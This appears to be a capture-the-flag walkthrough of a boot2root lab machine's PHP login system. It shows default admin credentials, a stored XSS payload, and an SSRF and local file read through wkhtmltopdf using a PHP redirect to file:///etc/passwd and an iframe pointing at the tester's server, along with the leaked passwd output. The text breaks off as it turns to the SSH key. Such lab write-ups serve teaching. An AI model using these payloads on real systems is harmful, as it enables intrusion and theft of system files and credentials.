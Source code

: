   
>  if(!isset($page->error)) {  
>        $page->success = "The installation was successful ! Thank you for using master loging system and we hope you enjo it ! Have fun ! \<br/>\<br/>  
>          \<a class='btn btn-success' href='./index.php'>Start exploring\</a>  
>          \<br/>\<br/>  
>          **\<h3>USER: admin \<br/> PASSWORD: 1234\</h3>";**  

   
Well, we have the default admin credentials...  

Now we see two options, edit profile or export profile. Let's focus on the first one:  

>Rank: Administrator  
>Last seen: 3 months ago  
>Email: sec.9emin1@gmail[.]com  

If we edit the display name we see that there's no banned chars, and it shows them in the html as they come. It's vulnerable to XSS:  

> <script>alert('1')</script>  

  

Not much we can do with an XSS in a boot2root machine. Let's see the second option. Export generates a pdf with the following details:  

>File name: document.pdf  
>File size: 26.7 KB (27,386 bytes)  
>Title: Profile of admin   
>**Creator: wkhtmltopdf 0.12.4**  
>PDF Producer: Qt 4.8.7  
>PDF Version: 1.4  
>Page Count: 1   

After some research we found the following entry in the issues section:  
SSRF and file read with wkhtmltoimage #3570  
**https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570**  
   
Let's try this scenario:

kali@kali:~$ cat /var/www/html/test.php  

>\<?php  
>     header('location:file:///etc/passwd');  
>\?>  

We edit the profile again with the iframe pointing at our server:  

  
> <iframe height="1000" width="1000" src="hxxp://192.168.1.115/test.php"></iframe>  

And the pdf outputs the /etc/passwd file:  
  
root\:x\:0:0:root:/root:/bin/bash  
...
**gemini1\:x\:1000:1000:gemini-sec,,,:/home/gemini1:/bin/bash**  
..

Here we find the home folder of the local user in the machine: gemini1. Now we need to enter without the key. Let's try the ssh id_rsa file:
  